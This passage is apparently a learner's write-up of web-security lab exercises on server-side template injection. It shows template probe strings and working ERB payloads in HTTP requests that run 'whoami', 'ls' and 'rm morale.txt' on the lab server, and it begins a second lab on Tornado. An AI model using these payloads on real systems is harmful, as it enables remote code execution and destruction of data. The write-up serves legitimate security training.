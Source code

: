 From the `Hackstrics` I copy some of the tests to check about the vulnerability:

```ruby
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

With the `Snipper Attack` I paste the above tests in the `Simple list` payload list.

In `Settings` I add a `Grep - Extract` from the response where the error happened, so it will be easier to see the response I receive from the tests.

I run the attack and I got the following results:
![](../../../images/Pasted image 20250124101000.png)

We see that for the `<%= 7*7 %>` I got a result of `49` confirming the vulnerability.

Knowing also that it is `ERB`, I will use it's syntax, to try code execution.

With the `GET /?message=<%= system("whoami") %> HTTP/2` I got a response saying that I'm `carlos`.

Then with the `GET /?message=<%= system("ls") %> HTTP/2` I got the list of the files present in the current directory, and among them there were also the `morale.txt`, so I put the command to delete it.

`GET /?message=<%= system("rm morale.txt") %> HTTP/2` I send the request, the file is deleted, and the lab is resolved.

--------

### Lab.2 - Basic Server-Side Template Injection (Code Context)

**Description**

The lab has an unsafe way to use the `Tornado` template. The goal to solve the lab is to delete `morale.txt` file from `Carlos's ` home directory.

`wiener:peter` credentials can be used to login.

**Solution**

When I login with the `wiener:peter` I see that there is an option to choose the `preferred name` where I can choose a `firstname` or a `nickname`. I selected the `nickname` but at this time, I didn't see any change.

![](../../../images/Pasted image 20250126162935.png)

But, I saw the change when I posted a comment in the site. There, it was using the name `H0td0g`:

![](../../../images/Pasted image 20250126163031.png)

So, this means, by using `preferred name`, I change the way how I'm presented when I post comments. Let's check the change of the `preferred name` in Burp.
